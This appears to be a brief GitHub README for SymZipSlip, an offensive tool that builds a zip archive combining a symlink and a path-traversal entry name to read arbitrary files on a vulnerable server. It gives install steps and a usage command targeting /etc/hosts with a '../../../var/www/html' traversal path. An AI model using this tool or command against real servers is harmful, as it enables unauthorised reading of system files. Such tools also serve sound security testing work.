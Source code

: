 # SymZipSlip
## Introduction
SymZip allows to combine two vulnerabilities a Zip Slip and Zip Symlink in order to have an Aritrary file read on a vulnerable server.
## Installation
- `git clone https://github.com/spawnzii/SymZipSlip.git`
- `cd SymZipSlip ; pip install -r requirements.txt`
## Usage
- `python3 symzip.py -s /etc/hosts -n ../../../../../../var/www/html/poc -o spz.zip`
